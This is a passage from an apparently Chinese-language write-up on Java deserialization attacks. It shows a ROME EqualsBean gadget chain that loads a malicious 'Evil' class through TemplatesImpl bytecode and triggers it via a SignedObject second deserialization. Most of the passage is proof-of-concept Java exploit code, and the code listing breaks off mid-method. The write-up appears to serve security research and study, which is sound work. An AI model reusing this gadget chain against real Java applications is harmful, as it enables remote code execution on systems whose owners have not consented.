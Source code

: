 成功执行到getObject，然后进行第二次反序列化，触发Evil恶意类


##### EqualsBean
利用 Hashtable 来触发equals，然后调用EqualsBean的 beanEquals 方法

```java
import CommonsCollections.Evil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import javassist.ClassPool;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.security.*;
import java.util.HashMap;
import java.util.Hashtable;

public class RomeEqualsBean {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }

    public static void main(String[] args) throws Exception{
        byte[] bytes=ClassPool.getDefault().get(Evil.class.getName()).toBytecode();

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{bytes});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Hashtable table1 = getPayload(Templates.class, obj);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(table1, kp.getPrivate(), Signature.getInstance("DSA"));

        Hashtable table2 = getPayload(SignedObject.class, signedObject);

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(table2);
        oos.close();
        //System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())));

        //反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

    public static Hashtable getPayload (Class clazz, Object payloadObj) throws Exception{
        EqualsBean bean = new EqualsBean(String.class, "r");
        HashMap map1 = new HashMap();
```